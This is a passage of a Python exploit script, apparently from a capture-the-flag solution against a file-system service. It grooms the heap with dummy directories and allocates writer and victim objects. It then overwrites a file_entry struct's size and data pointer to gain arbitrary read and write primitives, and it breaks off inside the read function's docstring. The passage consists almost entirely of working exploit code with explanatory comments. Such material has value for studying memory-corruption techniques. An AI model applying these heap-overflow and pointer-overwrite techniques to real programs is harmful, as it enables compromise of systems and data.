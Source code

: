 ```python

	# Step (3):

	# Second padding;
	# Dummy directories between the first entity and the second.

	log.info("Second padding in progress... ")
	while alloc_counter < max(match.malloc_writer, match.malloc_victim):
		alloc_counter += 1
		do_mkdir('AAAAdummy%d' % alloc_counter)
	
	log.success("Successfully finished the second padding.")

	# Step (4):

	# Allocation of the second entity.

	log.info("Allocating the second entity... ")
	alloc_counter += 2
	if writer_first:
		do_put('BBBBvictim', length=10)
	else:
		do_put('CCCCwriter', length=65500)

	
	#####################################################
	#                                                   #
	#           Functions used to gain                  #
	#           Read / Write primitives                 #
	#                                                   #
	#####################################################

	def _set_victim(address, length):
		payload = p64(match.home_addr) + p32(2) + 'SOME_FILENAME\0' + '\0'*6 + p64(length) + p64(address)
		'''
		payload is a `struct file_entry`, which looks like:
		
		struct file_entry {
		struct entry entry;
		size_t size;
		char* data;
		};

		the `entry` struct has:
		1) a pointer to a directory_entry struct ---> p64(match.home_addr) # home is the directory/cwd when the program runs.
		2) an `entry_type` field, which is an integer --> p32(2) # because 2 is defined to be FILE_ENTRY.
		3) a 20 bytes long `name` field (hence the `SOME_FILENAME`+'\x00'*7)

		After overwriting the file_entry, we overwrite the `size` and `data`:

		- p64(length) will overwrite the size.
		- p64(address) will overwrite the data (a `char*`)
		'''
		do_put('CCCCwriter', 'A' * match.mem_dist + payload)

	def do_read(address, length):
		'''
			[!] Arbitrary read primitive.
				
				Actions:
```